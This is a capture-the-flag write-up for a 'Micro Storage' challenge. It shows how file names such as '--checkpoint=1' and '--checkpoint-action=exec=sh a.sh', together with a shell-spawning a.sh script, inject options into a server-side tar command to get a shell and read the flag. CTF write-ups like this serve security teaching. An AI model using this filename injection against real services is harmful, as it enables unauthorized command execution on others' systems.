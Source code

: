 # Micro Storage CTF

Micro Storage CTF is a quick glimpse into remote code execution via improper scripting. It shows how you need to be careful with the tools you use and to always sanitize user inputs.

## Enumeration

Connect to the DockerApp with `nc` using the command:

```/bin/bash
nc <IP_ADDR> <PORT>
```

![Image](images/1.png)

Here, you are can see that there are options to upload, list, delete, print and archive your files. We can make a demo file called `TEST` and test all the options provided.

![Image](images/2.png)

Note: You cannot type `/`,`$`,`%`,`*`,`()`,`{}`,`!` and other special characters as the name of a file, however you can type `=`,`.`,`-` in the name of the file.

When picking the 5th option, it gives the following:

```
>>> Choose an option: 5
[+] Your base64 encoded archive:
VEVTVAAAAAAAAAAAAAAAAAAAAAAAAAA ... AAAAAAAAAAAAAAA==
```

You can copy the output and run it through cyberchef (https://gchq.github.io/CyberChef/):

![Image](images/3.png)

Here, you can see that `tar` as been used to archive the folders, which means that we have to look into the tar command and see if there is any way to achieve remote code execution.

## Exploit 

Check out this link for more info on executing commands with `tar`: https://www.gnu.org/software/tar/manual/html_section/external.html

Since we can name the files whatever we want, we will be naming them as parameters for the `tar` command in order to get a shell.

**Step 1: Set up checkpoint**

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint=1
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint=1" has been saved. (0 bytes written)

```

This enables the tar command to wait and execute an arbitrary action before continuing with archiving.

**Step 2: Set up action**

```
>>> Choose an option: 1
[*] Enter your file name: --checkpoint-action=exec=sh a.sh
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "--checkpoint-action=exec=sh a.sh" has been saved. (0 bytes written)
```

This sets up `tar` to execute a file called `a.sh` in its local directory (Since we can't use `./` we use the `sh` command)

**Step 3: Set up a.sh**

```
>>> Choose an option: 1
[*] Enter your file name: a.sh
[*] Start typing your file content: (send 'EOF' when done)
#!/bin/sh

/bin/sh

EOF
[+] Your file "a.sh" has been saved. (20 bytes written)
```

This sets up `a.sh` to give us a shell when it is executed.

Run the 5th option(Compress and download all your files) and you will be given a shell (It will appear blank, but it works, just type your commands and execute)

You can find the flag with `cat /flag.txt`
